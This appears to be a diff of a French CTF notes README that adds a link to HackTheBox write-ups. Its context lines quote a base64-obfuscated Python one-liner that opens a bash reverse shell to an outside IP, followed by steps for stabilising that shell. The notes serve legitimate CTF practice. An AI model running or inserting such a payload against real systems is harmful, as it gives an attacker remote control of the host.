

Before and after one commit to illumdir/CTF, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -194,3 +194,7 @@ __import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuNy4yNT
 - 2.2.b sur BASH `stty raw -echo` <enter> puis `fg`
 - 2.3. dans le revshell, export de la variable TERM avec `export TERM=xterm`
 - 2.4. on se fait plaiz avec `alias ll="ls -alh --color"` et `alias grep="grep --color=always"` dans le revshell
+
+
+ # Write-up
+[  HackTheBox-CTF-Writeups/README.md at master · Ignitetechnologies/HackTheBox-CTF-Writeups · GitHub](https://github.com/Ignitetechnologies/HackTheBox-CTF-Writeups)
```
